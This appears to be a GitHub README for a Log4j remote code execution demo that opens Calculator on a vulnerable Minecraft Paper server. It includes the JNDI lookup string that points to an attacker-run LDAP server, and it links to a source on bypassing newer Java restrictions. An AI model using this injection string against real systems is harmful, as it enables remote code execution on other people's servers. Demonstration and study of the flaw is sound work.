

# Java Log4j Remote Code Execution (RCE) Vulnerability Demo

Author: Jonathan Qiao

Date: 12/22/2021

## Overview:

On November 24th a RCE vulnerability was found with Java's popular logging library Log4j. This demo uses this vulnerability to run console commands to open the Calculator app on vulnerable applications. It was tested successfully on minecraft server paper 1.16.5.

## How The Vulnerability Roughly Works: 

LDAP look up can be triggered in vulnerable Log4J versions by making the library log the following string: ```${jndi:ldap://localhost:100/e}``` where ```localhost:100/e``` is an attacker controlled LDAP server that replies with a malicious class name and class base location hosted on another HTTP server. An important note is that the vulnerable application must have 
```-Dcom.sun.jndi.ldap.object.trustURLCodebase=true``` as an argument for later versions of Java since the system property is by default set to false in higher versions.

For more specific info (including how to bypass the higher java version limite) go to this translated blog: [link](https://www-cnblogs-com.translate.goog/yyhuni/p/15088134.html?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=en-US)


## Graphics:

The following is a screenshot of the minecraft server terminal and the calculator app opened by the vulnerability
